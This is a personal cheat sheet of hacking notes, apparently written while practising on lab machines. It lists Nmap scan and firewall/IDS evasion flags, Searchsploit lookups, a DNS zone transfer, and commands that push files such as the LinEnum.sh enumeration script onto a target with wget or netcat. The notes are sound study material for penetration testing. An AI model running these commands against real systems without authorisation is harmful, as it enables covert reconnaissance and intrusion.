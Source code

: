 # Hacking Notes
Random notes I've made while learning about hacking that might prove useful in the future.

## Nmap
- `nmap -sC -sV nmap 10.10.10.14 > nmap_scan`
- vulnerability scan: `nmap -sV -sC --script vuln 10.10.4.35`
- SYN/Stealth scan: `nmap -sS <target>`
- Most common UDP ports scan (takes longer than TCP): `nmap -sU --top-ports 20 <target>`
- Ping sweet (network host discovery): `nmap -sn 192.168.0.0/24` or `nmap -sn 192.168.0.1-254`
- Nmap Scripting Engine (NSE): https://nmap.org/book/nse-usage.html
- Scripts: https://nmap.org/nsedoc/
- Search Scripts: `grep "ftp" /usr/share/nmap/scripts/script.db`
- Also: `ls -l /usr/share/nmap/scripts/*ftp*`
- Skip using ping for host disdovery `-Pn`
- decide maximum transfer unit: `--mtu <number>` (must be multiples of 8)
- scan delay: `--scan-delay <time>ms`
- generate invalid chacksum for packets: `--badsum`

### Nmap Firewall/IDS evasion
- https://nmap.org/book/man-bypass-firewalls-ids.html
- `-f` used to fragment packets

## Searchsploit
- `searchsploit [name]`
- show exploit: `searchsploit -x 41006.txt`

## Search DNS information
- `nslookup domain.com`
- `dig axfr @10.10.10.13 cronos.htb`

## Change hostname
- `vi /etc/hosts`
- `10.10.10.13              cronos.htb`

## Upload file to target
- own host: `python -m SimpleHTTPServer`
- target host: `wget -r http://hostIP:8000/`
- OR; `python -m http.server 8080`

## Netcat
- listen for incoming file on target: `nc -l -p 1337 > LinEnum.sh`
- send the file from own host: `nc -w 3 [ip-add-target] 1337 < LinEnum.sh`

## Iterative command example
`for i in $(seq 1 20); do echo -n “$i: “; curl -s http://10.10.10.10/index.php/$i/ | grep ‘[title]’; done`
